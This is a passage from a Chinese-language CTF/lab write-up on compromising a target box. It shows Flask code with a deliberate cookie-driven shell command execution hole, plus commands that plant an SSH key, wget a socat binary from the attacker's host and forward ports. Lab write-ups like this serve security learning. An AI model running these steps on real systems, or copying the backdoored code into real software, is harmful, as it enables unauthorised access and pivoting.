 似乎没有地方可以利用，先传一个公钥上去就可以ssh登录了：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403190249801.png" alt="image-20240314195740985" style="zoom:50%;" />

反照发现之前再尝试的那个`user=xx`的源码：

```python
from flask import Flask, render_template, request, make_response, redirect, url_for
import subprocess
import base64
import random

app = Flask(__name__)

user_id_range = range(1, 1001)

@app.errorhandler(404)
def page_not_found(e):
    return redirect(url_for('index', user=random.choice(user_id_range)))

@app.route('/')
def index():
    try:
        user_id = int(request.args.get('user', -1))
    except ValueError:
        return redirect(url_for('index', user=random.choice(user_id_range)))

    if not isinstance(user_id, int) or user_id not in user_id_range:
        user_id = random.choice(user_id_range)
        return redirect(url_for('index', user=user_id))

    if user_id == 9:
        encoded_command = request.cookies.get('exec', '')
        if encoded_command:
            try:
                command = base64.b64decode(encoded_command).decode()
                result = subprocess.check_output(command, shell=True).decode()
                return render_template('universe.html', result=result)
            except Exception as e:
                return render_template('universe.html', result="Invalid cookie value"), 500
        else:
            return render_template('universe.html', result="Missing 'exec' cookie")

    return render_template('index.html', user_id=user_id), 403

if __name__ == '__main__':
    app.run(host="0.0.0.0", port=1212)
```

端口转发一下，先传一个`socat`上去：

```bash
# kali
python3 -m http.server 8888
# miwa
cd /tmp
wget http://10.161.61.130:8888/socat
chmod +x socat
./socat TCP-LISTEN:8000,fork TCP4:127.0.0.1:8080 &
```
